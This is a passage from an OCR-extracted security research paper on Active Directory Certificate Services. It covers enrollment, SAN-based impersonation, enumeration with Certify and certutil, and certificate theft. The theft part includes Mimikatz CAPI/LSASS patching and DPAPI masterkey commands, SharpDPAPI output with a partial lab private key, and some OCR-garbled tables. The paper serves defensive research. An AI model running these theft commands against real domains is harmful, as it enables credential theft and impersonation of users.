| वर्ष | 《电  X 回国  B E |  |  |  |  |  |  |  |
| Certificates - Current User | lssued To | < | Issued By | Expiration Date | Intended Purposes | Friendly Name | Status | Certificate Template |
| Personal | cody |  | theshire-DC-CA | 2/25/2022 | <All> | CN=cody |  |  |
| Certificates | dev.theshire.local |  | dev.theshire.local | 5/6/2021 | <All> | < None> |  |  |
| Trusted Root Certification Au | harmjOy |  | theshire-DC-CA | 3/8/2022 | Encrypting File Syst ... | < None> |  | User |
| Enterprise Trust |  |  |  |  |  |  |  |  |
| Intermediate Certification Au |  |  |  |  |  |  |  |  |
| Active Directory User Object |  |  |  |  |  |  |  |  |
| Trusted Publishers |  |  |  |  |  |  |  |  |
| Untrusted Certificates |  |  |  |  |  |  |  |  |
| Third-Party Root Certification |  |  |  |  |  |  |  |  |
| Trusted People |  |  |  |  |  |  |  |  |
| Client Authentication Issuers |  |  |  |  |  |  |  |  |
| Local NonRemovable Certific |  |  |  |  |  |  |  |  |
| MSIEHistoryJournal |  |  |  |  |  |  |  |  |
| Certificate Enrollment Reques |  |  |  |  |  |  |  |  |
| Smart Card Trusted Roots |  |  |  |  |  |  |  |  |

Figure 11 - Requested User Certificate Installed in the Personal Certificate Store

On the Enterprise CA side, certsrv.msc will show the issued certificate under CA → Issued Certificates:

|  |  | Certsrv - [Certification Authority (Local) theshire-DC-CA\lssued Certificates] |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| File Action | View Help |  |  |  |  |  |  |  |
|  | 中中 四国日  2 |  |  |  |  |  |  |  |
| Certification Authority (Local) |  | Request ID | Requester Name | Binary Certificate | Certificate Template | Serial Number | Certificate Effective Date | Certificate Expiration Date |
| v G | theshire-DC-CA | E 4 | THESHIRE\DCS | ------ BEGIN CERTI ... | Domain Controller ( ... | 5500000004bf0. | 1/4/2021 11:07 AM | 1/4/2022 11:07 AM |
|  | Revoked Certificates | E 159 | THESHIRE\localadmin | ------BEGIN CERTI ... |  | 550000009fb1b ... | 2/26/2021 5:23 PM | 2/26/2022 5:23 PM |
| 2 |  |  |  |  | User (User) |  |  |  |
|  | Issued Certificates | 165 | THESHIRE\harmj0y | ------ BEGIN CERTI ... | User (User) | 55000000a5ef7 ... | 3/8/2021 5:01 PM | 3/8/2022 5:01 PM |
|  | Pending Requests |  |  |  |  |  |  |  |
| L | Failed Requests |  |  |  |  |  |  |  |
| 1 | Certificate Templates |  |  |  |  |  |  |  |

Fiaure 12 – Viewing an Issued Certificates in certsry.msc on an Enterprise CA

One can also use the built-in certreq.exe command or PowerShell's Get-Certificate command for certificate enrollment. On non-Windows machines, it is easiest for clients to use the HTTP-based interfaces to request certificates.

After a CA has issued a certificate, it can revoke the issued certificates through certsrv.msc. AD CS, by default, distributes revoked certificate information using Certificate Revocation Lists (CRLs), which are basically just a list of each revoked certificate's serial number. Administrators can also optionally configure AD CS to support the Online Certificate Status Protocol (OSCP) by enabling the Online Responder server role during AD CS installation.

So, what is happening behind the scenes when a user enrolls in a certificate? In a basic scenario, a client first generates a public key and associated private key. The client creates a Certificate Signing Request (CSR) in which it specifies the public key and the name of the certificate template. The client then signs the CSR with the private key and sends the CSR to the Enterprise CA using one of the enrollment protocols or interfaces (e.g., MS-WCCE, MS-ICPR, the certificate enrollment web service, etc.).

The Enterprise CA then checks if the client has enrollment privileges at the CA level. If so, the CA looks at the certificate template specified in the CSR and verifies that the client can enroll in the given template by examining the certificate template AD object's DACL. If the DACL grants the user the enrollment privileges, the user can enroll. The CA will create and sign a certificate based on the certificate template's settings and return the signed certificate to the user.

The following is a graphic gives an overview of the enrollment process:



Figure 13 - Overview of Certificate Enrollment

### Issuance Requirements

Manager Approval

In addition to the certificate template and Enterprise CA access control restrictions, there two certificate template settings we have seen used to control certificate enrollment. These are known as issuance requirements:

| Computer2 Properties | ? |
| --- | --- |
| General Compatibility Request Handling Cryptography | Key Attestation |
| Superseded Templates Extensions Security | Server |
| Subject Name Issuance Requirements |  |
| Require the following for enrollment: |  |
| CA certificate manager approval |  |
| This number of authorized signatures: 1 |  |
| If you require more than one signature, autoenrollment is not allowed. |  |
| Policy type required in signature: |  |
| Application policy |  |
| Application policy: |  |
| Any Purpose |  |
| Issuance policies: |  |
| Add ... |  |
| Remove |  |
| Require the following for reenrollment: |  |
| · Same criteria as for enrollment |  |
| Valid existing certificate |  |
| Allow key based renewal (") |  |
| Requires subiect information to be provided within the certificate |  |
| request. |  |
| * Control is disabled due to compatibility settings. |  |
| OK Cancel Apply | Help |

Fiqure 14 - Certificate issuance Requirements via the Certificate Templates Console

The first restriction is "CA certificate manager approval", which results in the certificate template setting the CT_FLAG_PEND_ALL_REQUESTS (0x2) bit on the AD object's msPKI-Enrollment -Flag® attribute. This puts all certificate requests based on the template into the pending state (visible in the "Pending Requests" section in certsrv.msc), which requires a certificate manager to approve or deny the request before the certificate is issued:

| certsrv - [Certification Authority (Local)\theshire-DC-CA\Pending Requests] |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| File Action View Help |  |  |  |  |  |
| 中 |  |  |  |  |  |
| Certification Authority (Local) | Request ID | Binary Request | Request Status Code | Request Disposition Message | Request Submission Date |
| V theshire-DC-CA | 3 179 | ------ BEGIN NE ... | The operation com ... | Taken Under Submission | 3/8/2021 11:21 PM |
| Revoked Certificates | 180 | ------ BEGIN NE ... | The operation com ... | Taken Under Submission | 3/8/2021 11:21 PM |
| Issued Certificates |  |  |  |  |  |
| Pending Requests |  | All Tasks > | View Attributes/Extensions ... |  |  |
| Failed Requests |  | Refresh | Export Binary Data ... |  |  |
| Certificate Templates |  |  |  |  |  |
|  |  | Help | Issue |  |  |
|  |  |  | Deny |  |  |

Figure 15 - Approving a Pending Certificate Request in certsrv.msc

Enrollment Agents, Authorized Signatures, and Application Policies

The second set of restrictions shown in the issuance requirements screenshot (Figure 14) are the settings "This number of authorized signatures" and the "Application policy". The former controls the number of signatures required in the CSR for the CA to accept it. The latter defines the EKU OIDs that that the CSR signing certificate must have.

A common use for these settings is for enrollment agents. An enrollment agent is an AD CS term given to an entity that can request certificates on behalf of another user. To do so, the CA must issue the enrollment agent account a certificate containing at least the Certificate Request Agent EKU (OID 1.3.6.1.4.1.311.20.2.1). Once issued, the enrollment agent can then sign CSRs and request certificates on behalf of other users. The CA will issue the enrollment agent a certificate as another user only under the following non-comprehensive set of conditions (implemented primarily in default policy module certpdef . d11):

- The Windows user authenticating to the CA has enrollment rights to the target certificate template.
- If the certificate template's schema version is 1, the CA will require signing certificates to . have the Certificate Request Agent OID before issuing the certificate. The template's schema version is the specified in its AD object's msPKI-Template-Schema-Version property.
- If the certificate template's schema version is 2:
	- 0 The template must set the "This number of authorized signatures" setting and the specified number of enrollment agents must sign the CSR (the template's mspki ra-signature AD attribute defines this setting). In other words, this setting specifies how many enrollment agents must sign a CSR before the CA even considers issuing a certificate.


- O The template's "Application policy" issuance restriction must be set to "Certificate Request Agent".
#### Enrollment Agent certificates are potentially very powerful. As MS-CRTD section 4.2 states59:

"Because an Enrollment Aqent is allowed to specify certificates to be issued to any subject, it can bypass corporate security policy. As a result, administrators need to be especially careful when allowing subjects to enroll for Enrollment Agent certificates."

Enterprise CAs can place restrictions on enrollment agents at the CA level®, but we have yet to encounter this in a network. For more information on issuance restrictions, see Microsoft's PKI design guidance61.

# Subject Alternative Names and Authentication

A Subject Alternative Name (SAN) is an X.509v3 extension. When added to a certificate, it allows additional identities to be bound to a certificate® beyond just the subject of the certificate. A common use for SANs is supplying additional host names for HTTPS certificates. For example, if a web server hosts content for multiple domains, each applicable domain could be included in the SAN so that the web server only needs a single HTTPS certificate instead of one for each domain.

This is all well and good for HTTPS certificates, but when combined with certificates that allow for domain authentication, a dangerous scenario can arise. By default, during certificate-based authentication, one way AD maps certificates to user accounts based on a UPN specified in the SAN®. If an attacker can specify an arbitrary SAN when requesting a certificate that has an EKU enabling client authentication, and the CA creates and signs a certificate using the attackersupplied SAN, the attacker can become any user in the domain. For example, if an attacker can request a client authentication certificate that has a domain administrator SAN field, and the CA issues the certificate, the attacker can authenticate as that domain admin.

- 
Various AD CS misconfigurations can allow unprivileged users to supply an arbitrary SAN in a certificate enrollment, resulting in domain escalation scenarios. We explore these scenarios in the "Domain Escalation" section.

### Kerberos Authentication and the NTAuthCertificates Container

How does certificate authentication to AD work considering that CA servers are typically separate servers from domain controllers? AD supports certificate authentication over two protocols by default: Kerberos and Secure Channel (Schannel).

For Kerberos, the technical specification "[MS-PKCA]: Public Key Cryptography for Initial Authentication (PKINIT) in Kerberos Protocol"64 defines the authentication process. @ ethicalchaos gives a good overview of PKINIT in their smart card post6³. A brief overview of this process is below.

A user will sign the authenticator for a TGT request using the private key of their certificate and submit this request to a domain controller. The domain controller performs a number of verification steps and issues a TGT if everything passes. These steps are best detailed by Microsoft's smart card documentation®6 (emphasis ours):

> The KDC validates the user's certificate (time, path, and revocation status) to ensure that the certificate is from a trusted source. The KDC uses CryptoAPI to build a certification path from the user's certificate to a root certification authority (CA) certificate that resides in the root store on the domain controller. The KDC then uses CryptoAPI to verify the digital signature on the signed authenticator that was included in the preauthentication data fields. The domain controller verifies the signature and uses the public key from the user's certificate to prove that the request originated from the owner of the private key that corresponds to the public key. The KDC also verifies that the issuer is trusted and appears in the NTAUTH certificate store.

The "NTAUTH certificate store" mentioned here refers to an AD object AD CS installs at the following location:

CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>

Microsoft explains the significance of this object67:

By publishing the CA certificate to the Enterprise NTAuth store, the Administrator indicates that the CA is trusted to issue certificates of these types. Windows CAs automatically publish their CA certificates to this store.

So, what does all this mean? When AD CS creates a new CA (or it renews CA certificates), it publishes the new certificate to the NTAuthCertificates object by adding the new certificate to the object's cacertificate attribute:

| ADSI Edit |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| File | Action | View Help |  | CN=NTAuthCertificates Properties |  |
|  |  | 13 IS 司 X 固 |  |  |  |
|  |  |  |  | Attribute Editor Security |  |
| ADSI Edit |  |  | Name |  |  |
|  |  |  |  | Attributes: |  |
|  |  | Configuration [CORPDC01.CORP.LOC | T CN=AIA |  |  |
|  |  | CN=Configuration,DC=CORP,DC | CN=CDP | Attribute Value |  |
|  |  | CN=DisplaySpecifiers | CN=Certificate Templates | adminDescription <not set> |  |
|  |  | CN=Extended-Rights | CN=Certification Authori | adminDisplayName <not set> |  |
|  |  | CN=ForestUpdates | CN=Enrollment Services | authorityRevocationList |  |
|  |  | CN=LostAndFoundConfig |  | cACertificate 30182\03\6B\30\82\02\53\A0\03\02\01\02\02 |  |
|  | CN=NTDS Quotas |  | CN=KRA |  |  |
|  | CN=Partitions |  | CN=OID | Multi-valued Octet String Editor |  |
|  |  | CN=Physical Locations | CN=NTAuthCertificates |  |  |
|  |  |  |  | Attribute: cACertificate |  |
|  |  | CN=Services |  |  |  |
|  |  | CN=AuthN Policy Config |  | Values: |  |
|  |  | CN=Claims Configuration |  | 13018210316B\30182\02\53\A0\03\02\01\02\02\10\30 Add |  |
|  |  | CN=Group Key Distributi |  |  |  |
|  |  | CN=Microsoft SPP |  |  | Remove |
|  |  | CN=MsmgServices |  |  |  |
|  |  | CN=NetServices |  |  | Edit |
|  |  | CN=Public Key Services |  |  |  |

wing an NTAuthCertificates Object that Trusts a Single CA C

During certificate authentication, the DC can then verify that the authenticating certificate chains to a CA certificate defined by the NTAuthCertificates object. CA certificates in the NTAuthCertificates object must in turn chain to a root CA. The big takeaway here is the NTAuthCertificates object is the root of trust for certificate authentication in Active Directory!®8

Smart cards are a well-known technology that use Kerberos certificate authentication. A smart card is a physical device that protects the client private key for a certificate at the hardware level. Virtual smart cards also exist, though they do not have the same security guarantees. RDP supports authentication with smart cards, but there is one caveat: the certificate template the user enrolls in needs to have the Smart Card Logon (1.3.6.1.4.1.311.20.2.2) OID set in the

pKIExtendedKeyUsage property. As a sidenote, Christoph Falta's GitHub repo69 has information on using virtual smart cards, and MySmartLogon has a nice reference on importing a .pfx manually into a smart card70.

Last year, @_ethicalchaos_ made a PR to Rubeus to implement PKINIT abuse7², and covers more details on this in depth in their post on attacking smart card based AD networks74. This means the one could use Rubeus to request a Kerberos ticket granting ticket (TGT) using a certificate that allows for domain authentication (without needing a physical smart card or the Windows Credential Store):



Figure 17 - Using Rubeus to Request a TGT with a Certificate

This paper covers how to steal existing certificates and how to further use them with Rubeus shortly in the "Certificate Theft" section.

## Secure Channel (Schannel) Authentication

Schannel is the security support provider (SSP) Windows leverages when establishing TLS/SSL connections. Schannel supports client authentication (amongst many other capabilities), enabling a remote server to verify the identity of the connecting user. It accomplishes this using PKI, with certificates being the primary credential. During the TLS handshake, the server requests

a certificate from the client for authentication. The client, having previously been issued a client authentication certificate from a CA the server trusts, sends its certificate to the server. The server then validates the certificate is correct and grants the user access assuming everything is okay. Comodo has a nice simple overview of this process on their blog73.

When an account authenticates to AD using a certificate, the DC needs to somehow map the certificate credential to an AD account. Schannel first attempts to map the credential to a user account use Kerberos's S4U2Self functionality. If that is unsuccessful, it will follow the attempt to map the certificate to a user account using the certificate's SAN extension, a combination of the subject and issuer fields, or solely from the issuer, as outlined in section 3.5.2 of the Remote Certificate Mapping Protocol (MS-RCMP) specification74.

By default, not many protocols in AD environments support AD authentication via Schannel out of the box. WinRM, RDP, and IIS all support client authentication using Schannel, but it requires additional configuration, and in some cases – like WinRM – does not integrate with Active Directory. One protocol that does commonly work – assuming AD CS has been setup - is LDAPS (a.k.a., LDAP over SSL/TLS). In fact, what initiated this research was learning from the AD technical specification (MS-ADTS) that client certificate authentication to LDAPS is even possible®.

Based our experience, not many tools seem to take advantage of client certificate authentication to LDAPS. The cmdlet Get-LdapCurrentUser76 demonstrates how one can authenticate to LDAP using .NET libraries. The cmdlet performs an LDAP "Who am 1?" extended operation to display the currently authenticating user:



# AD CS Enumeration

Just like for most of AD, all the information covered so far is available by querying LDAP as a domain authenticated, but otherwise unprivileged, user.

If we want to enumerate Enterprise CAs and their settings, one can query LDAP using the (objectCategory=pKIEnrollmentService) LDAP filter on the CN=Configuration,DC=<DOMAIN>,DC=<COM> search base (this search base corresponds with the Configuration naming context of the AD forest). The results will identify the DNS hostname of the CA server, the CA name itself, the certificate start and end dates, various flags, published certificate templates, and more.

To better facilitate the enumeration and abuse of the various misconfigurations detailed in this paper, we built Certify. Certify is a C# tool that can enumerate useful configuration and infrastructure information about of AD CS environments and can request certificates in a variety of different ways. We will release Certify approximately 45 days after publishing this paper, and we will be covering various Certify functionality throughout this paper.

Certify's cas command can enumerate trusted root CA certificates, certificates defined by the NTAuthCertificates object, and various information about Enterprise CAs:

| C:\>Certify.exe cas |  |
| --- | --- |
| v0.5.2 |  |
| Action: Find certificate authorities |  |
| Using the search base 'CN=Configuration,DC=CORP,DC=LOCAL' |  |
| [*] Root CAs |  |
| Cert SubjectName | : CN=CORP-CORPDC01-CA, DC=CORP, DC=LOCAL |
| Cert Thumbprint | : B6A9FA2866E8525E782AE162DBA45FD0EAA71D42 |
| Cert Serial : | 30F44C6DE341F3994FDB8E7AD626BA68 |
| Cert Start Date : | 5/6/2021 4:41:38 PM |
| Cert End Date | : 5/6/2026 4:51:38 PM |
| Cert Chain | : CN=CORP-CORPDC01-CA,DC=CORP,DC=LOCAL |
| [*] | NTAuthCertificates - Certificates that enable authentication: |
| Cert SubjectName | : CN=CORP-CORPDC01-CA, DC=CORP, DC=LOCAL |
| Cert Thumbprint | : B6A9FA2866E8525E782AE162DBA45FD0EAA71D42 |
| Cert Serial | : 30F44C6DE341F3994FDB8E7AD626BA68 |
| Cert Start Date .. | 5/6/2021 4:41:38 PM |
| Cert End Date | 5/6/2026 4:51:38 PM |
| Cert Chain | : CN=CORP-CORPDC01-CA,DC=CORP,DC=LOCAL |
| [*] Enterprise/Enrollment CAs: |  |
| Enterprise CA Name | : CORP-CORPDC01-CA |
| DNS Hostname | : CORPDC01.CORP.LOCAL |
| FullName | CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA |

Figure 19 - Output from Certify's cas command

On a domain-joined machine, one can also enumerate Enterprise CAs using certutil.exe -TCAInfo:



Figure 20 - Enumerating Certificate Authorities with certutil.exe

Certificate templates are AD objects with an object class of pKICertificateTemplate and store the template's configuration data. An Enterprise CA "publishes" a template – making it available for clients to enroll in - by adding the template's name to the certificatetemplates attribute of an Enterprise CA's AD object. Using Certify's find command, one can enumerate Enterprise CAs and return detailed information about the certificate templates each one publishes:

| C:\Tools>Certify.exe find |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| v0.5.2 |  |  |  |  |  |
| 18 Action: Find certificate templates |  |  |  |  |  |
| Using the search base 'CN=Configuration,DC=theshire,DC=local' |  |  |  |  |  |
| = Listing info about the Enterprise CA 'theshire-DC-CA' |  |  |  |  |  |
| Enterprise CA Name : theshire-DC-CA |  |  |  |  |  |
| DNS Hostname : dc.theshire.local |  |  |  |  |  |
| FullName : dc.theshire.local\theshire-DC-CA |  |  |  |  |  |
| Flags | : SUPPORTS NT AUTHENTICATION, CA SERVERTYPE ADVANCED |  |  |  |  |
| Cert SubjectName | : CN=theshire-DC-CA, DC=theshire, DC=local |  |  |  |  |
| Cert Thumbprint | : 187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2 |  |  |  |  |
| Cert Serial : 14BFC25F2B6EEDA94404D5A5B0F33E21 |  |  |  |  |  |
| Cert Start Date : 1/4/2021 10:48:02 AM |  |  |  |  |  |
| Cert End Date : 1/4/2026 10:58:02 AM |  |  |  |  |  |
| Cert Chain | : CN=theshire-DC-CA,DC=theshire,DC=local |  |  |  |  |
| UserSpecifiedSAN : Disabled |  |  |  |  |  |
| CA Permissions |  |  |  |  |  |
| Owner: BUILTIN\Administrators S-1-5-32-544 |  |  |  |  |  |
| Access Rights | Principal |  |  |  |  |
| Allow ManageCA, ManageCertificates |  | S-1-5-32-544 | BUILTIN\Administrators |  |  |
| Allow ManageCA, ManageCertificates |  | S-1-5-21-937929760-3187473010-80948926-512 | THESHIRE\Domain Admins |  |  |
| Allow Read, Enroll |  | S-1-5-21-937929760-3187473010-80948926-513 | THESHIRE\Domain Users |  |  |
| Allow Enroll |  |  | THESHIRE\Domain Computers S-1-5-21-937929760-3187473010-80948926-515 |  |  |
| ManageCA, ManageCertificates |  |  |  | Allow THESHIRE\Enterprise Admins S-1-5-21-937929760-3187473010-80948926-519 |  |
| Allow |  |  |  |  | ManageCertificates, Enroll THESHIRE\certmanager S-1-5-21-937929760-3187473010-80948926-1605 |
| Allow ManageCA. Enroll |  | 5-1-5-21-937929760-3187473010-80948926-1606 | THESHTRE\certadmin |  |  |

Figure 21 - Enterprise CA Information from Certify's find Command

| [*] Available Certificate Templates : |  |  |
| --- | --- | --- |
| CA Name | : dc.theshire.local\theshire-DC-CA |  |
| Template Name | : User |  |
| Validity Period | : 1 year |  |
| Renewal Period | : 6 weeks |  |
| msPKI-Centificate-Name-Flag : SUBJECT ALT REQUIRE UPN, SUBJECT ALT REQUIRE EMIL, SUBJECT REQUIRE EMAIL, SUBIECT REQUIRE DIRECTORY PATH |  |  |
| mspki-enrollment-flag | : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT |  |
| Authorized Signatures Required : 0 |  |  |
| pkiextendedkeyusage | : Client Authentication, Encrypting File System, Secure Email |  |
| Permissions |  |  |
| Enrollment Permissions |  |  |
| Enrollment Rights | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Domain Users | S-1-5-21-937929760-3187473010-80948926-513 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| Object Control Permissions |  |  |
| Owner | : THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteOwner Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteDacl Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteProperty Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |

Fiqure 22 - Certificate Template Information from Certify's find Command

The output of certutil.exe -TCAInfo includes each Enterprise CA's published certificate templates. To get detailed information about each available certificate template, one can use certutil -v -dstemplate:

| C:\Windows\system32\cmd.exe | - ■ × |
| --- | --- |
| C:\Temp>certutil -v -dstemplate |  |
| [Version] |  |
| Signature = "$Windows NT$" |  |
| [Administrator] |  |
| objectClass = "top", "pKICertificateTemplate" |  |
| cn = "Administrator" |  |
| distinguishedName = "CN=Administrator,CN=Certificate Templates,CN=Services,CN=Services,CN=Gervices,CN=Configuration,OC=Iocal" |  |
| instanceType = "4" |  |
| whenCreated = "20210104185843.0Z" 1/4/2021 10:58 AM |  |
| whenChanged = "20210104185843.0Z" 1/4/2021 10:58 AM |  |
| displayName = "Administrator" |  |
| uSNCreated = "209020" 0x3307c |  |
| uSNChanged = "209020" 0x3307c |  |
| showInAdvancedViewOnly = "TRUE" |  |
| nTSecurityDescriptor = "D:PAI(0A;;RPWPCR;9e18c968-78fb-11d2-90d4-00c04f79dc55;;DA)(OA;;RPMPCR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;$-1- |  |
| 5-21-937929760-3187473010-88948926-519 0;;CCOCLSMP#PDTLOSDRCMDV;;;DA](A;;CCOCLSMRVIPDTLOSDRCMD;;;S-1-5-21-93799760-3187473010-889489 |  |
| 26-519)(A;;LCRPLORC;;;AU)" |  |
| Allow Enroll THESHIRE\Domain Admins |  |
| Allow Enroll THESHIRE\Enterprise Admins |  |
| Allow Full Control THESHIRE\Domain Admins |  |
| Allow Full Control THESHIRE\Enterprise Admins |  |
| Allow Read NT AUTHORITY\Authenticated Users |  |

Figure 23 - Enumerating Certificate Templates with certutil

# AD CS Tradecraft

# Certificate Theft

Setting up working Windows PKI infrastructure in an organization of any size is not the simplest task. If an organization has AD CS installed and configured (and they probably do) they had a reason to undergo the engineering effort. This means that if an enterprise CA exists, at least some AD users and/or computers likely have certificates issued to them, and some of these certificates likely will have an EKU permitting domain authentication.

So where, and how, are these certificates stored? Specifically, since a working Windows .pfx certificate file is the combination of a public certificate and private key, where and how are both the certificate and its associated private key certificate stored? One option is for private keys is to store them on a smart card. In this case, refer to @ ethicalchaos 's post on attacking hardware-based smart cards77. If the machine has a Trusted Platform Module (TPM), Windows could store the private key in the TPM if AD CS has a certificate template supporting it'³. The CA server could also protect its private key using a Hardware Security Module (HSM)79. Attacking smart cards, TPMs, and HSMs is outside the scope of this paper.

In our experience, though, many organizations do not use any hardware-backed storage methods and instead use the default settings where the OS stores the keys itself. In this case, Windows uses the Data Protection Application Programming Interface (DPAPI) to protect the key material. If you are unfamiliar with DPAPI, we have a post that describes it in depth®. The tools we will discuss to perform certificate theft are built-in Windows commands, GhostPack's SharpDPAP184, and various Mimikatz modules.

## Exporting Certificates Using the Crypto APIs – THEFT1

The easiest way to extract a user or machine certificate and private key is through an interactive desktop session. If the private key is exportable, one can simply right click the certificate in certmgr.msc, and go to All Tasks → Export... to export a password protected . pfx file. One can

<sup>81</sup> 

accomplish this programmatically as well. Examples include PowerShell's Export-PfxCertificate cmdlet or TheWover's CertStealer® C# project.

Underneath, these methods use the Microsoft CryptoAPI (CAPI) or more modern Cryptography API: Next Generation (CNG) to interact with the certificate store. These APIs perform various cryptographic services that needed for certificate storage and authentication (amongst other uses).

If the private key is non-exportable, CAPI and CNG will not allow extraction of non-exportable certificates. Mimikatz's crypto::capi and crypto::cng commands can patch the CAPI and CNG to allow exportation of private keys. crypto::capi patches CAPI in the current process whereas crypto: : cng requires patching lsass.exe's memory.



Figure 24 – Patching the CAPI and Exporting a Certificate with Mimikatz

Defensive IDs: NONE

nttps://github.com/TheWover/Ce

Defensively, there are methods for detecting tampering of LSASS's memory. We will not cover these approaches this paper as they are outside the focus of AD CS. In addition, we have not found great logs for detecting certificate theft when Windows APIs are used to export a certificate.

# User Certificate Theft via DPAPI – THEFT2

Windows stores certificate private keys using DPAPI. Microsoft breaks out the storage locations for user and machine private keys83. When manually decrypting the encrypted DPAPI blobs, a developer needs to understand which cryptography API the OS used as the private key file structure differs between the two APIs. When using SharpDPAPI, it automatically accounts for these file format differences.

Windows most commonly stores user certificates in the registry in the key HKEY CURRENT USER\SOFTWARE\Microsoft\SystemCertificates®, though some certificates personal also stored in %APPDATA%\Microsoft\SystemCertificates\My\Certificates\.The associated user private key locations are primarily at %APPDATA%\Microsoft\Crypto\RSA\User SID\ for CAPI keys and %APPDATA%\Microsoft\Crypto\Keys\ for CNG keys. These structures are semi-undocumented, though Benjamin Delpy has nicely broken down these structures in Mimikatz85 86. From these structures, one can derive:

- The DPAPI masterkey needed to decrypt the private key protected blob. This defines the user/machine masterkey (identified by a GUID) needed to decrypt the private key.
- . The UniqueName of the private key, also known as the key container name. Windows stores certificates in some type of raw format (that we were not able to determine) with metadata prefixed to the actual data of the certificate. Either this UniqueName or the private key filename is embedded in this metadata and is likely the best way to link private keys to their associated certificates. As we do not have this method built out, the other "hackish" way is to compare the decrypted private key components to the public key components87.

To obtain a certificate and its associated private key, one needs to:

<sup>87</sup> 

- 1. Identify which certificate one wants to steal from the user's certificate store and extract the key store name.
- 2. Find the DPAPI masterkey needed to decrypt the associated private key.
- 3. Obtain the plaintext DPAPI masterkey and use it to decrypt the private key.

Benjamin Delpy has documented this process with EFS certificates88, but the same process applies to other certificates.

There are multiple methods to get the plaintext DPAPI masterkey. A domain's DPAPI backup key 89 can decrypt any domain user's masterkey file. Mimikatz's dpapi::masterkey /in:"C:\PATH\TO\KEY" /rpc command can retrieve an account's masterkeyif Mimikatz is run in the target user's security context. If a user's password is known, one can decrypt masterkey file using SharpDPAPI's masterkeys command or Mimikatz's dpapi::masterkey /in:"C:\PATH\TO\KEY" /sid:accountSid /password:PASScommand.

To simplify masterkey file and private key file decryption, SharpDPAPI's certificates command can be used with the /pvk, /mkfile, /password, or {GUID}:KEY arguments to decrypt the private keys and associated certificates, outputting a . pem text file:

hub.com/GhostPack/SharnDPAPI#

| C:\Tools>SharpDPAPI.exe certificates /mkfile:C:\temp\mkeys.txt |
| --- |
| (-)  -1 (- i- i- i- i- i-   }  - / ^  - / |
| v1.11.2 |
| [*] Action: Certificate Triage |
| Folder : C:\Users\harmj0y\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-937929760-3187473010-88948926-1104 |
| File : 065daebb32bc3866a379428730ffd139 6c712ef3-1467-4f96-bb5c-6737ba66cfb0 |
| Provider GUID : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb} |
| Master Key GUID : {bda6fecf-78b3-43c8-a8c1-ddae11db1099} |
| Description : CryptoAPI Private Key |
| algCrypt : CALG 3DES (keyLen 192) |
| algHash : CALG SHA (32772) |
| Salt : a92263a893217ed7cc5f2adcbf2b2f24 |
| HMAC : 5d509fb89aa0a484270efae84725f63f |
| Unique Name : te-UserMod-19125d35-bda4-4bd3-975b-ba7c7243c229 |
| Thumbprint : 9F1CD4264820FFB35931A9F4783A06E4B57FD7E1 |
| : CN=theshire-DC-CA, DC=theshire, DC=local Issuer |
| Subject : CN=cody, CN=Users, DC=theshire, DC=local |
| Valid Date : 4/14/2021 8:37:15 PM |
| Expiry Date : 4/14/2022 8:37:15 PM |
| Enhanced Key Usages: |
| Client Authentication (1.3.6.1.5.5.7.3.2) |
| Secure Email (1.3.6.1.5.5.7.3.4) |
| Encrypting File System (1.3.6.1.4.1.311.10.3.4) |
| [ ! ] Certificate can be used for client auth! |
| [*] Private key file 065daebb32bc3866a379428730ffd139 6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered: |
| -- BEGIN RSA PRIVATE KEY -- -- |
| MIIEpAIBAAKCAOEAysLTIUoyA006z4wWuyxjDLC020uzfXCIqw8sAPR6a7i4CRtS |
| nPwbExbNUZNOsQBLxuzx0L5XX0kde4NHnAqtIu80QXReU0uTrWK+V45RvnZg79z0 |
| a2nsYp5b+cd3x08FAcjl2eyqavqq31ow0nXJe07LHbGNKA3Mpj7wfI+NcYjDvD6M |

Exportina a Certificate with SharpDPAPI

Note the call out for "[!] Certificate can be used for client auth!", indicating the certificate allows for domain authentication. To convert the . pem to a .pfx, one can use the openssl command displayed at the end of the SharpDPAPI output:

openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

#### Defensive IDs:

- Detecting Reading of DPAPI-Encrypted Keys DETECT5
### Machine Certificate Theft via DPAPI – THEFT3

Windows key HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates® and stores private keys in several different places depending on the account34. Although SharpDPAPI will search all

locations, from these come %ALLUSERSPROFILE%\Application Data\Microsoft\Crypto\RSA\MachineKeys (CAPI) and %ALLUSERSPROFILE%\Application Data\Microsoft\Crypto\Keys (CNG). These private keys are associated with the machine certificate store and Windows encrypts them with the machine's DPAPI master keys. One cannot decrypt these keys using the domain's DPAPI backup key, but rather must use the DPAPI SYSTEM LSA secret on the system which is accessible only by the SYSTEM user. You can do this manually with Mimikatz' lsadump::secrets command and then use the extracted key to decrypt machine masterkeys. You can also patch CAPI/CNG as before and use Mimikatz' crypto::certificates /export /systemstore:LOCAL MACHINE command.

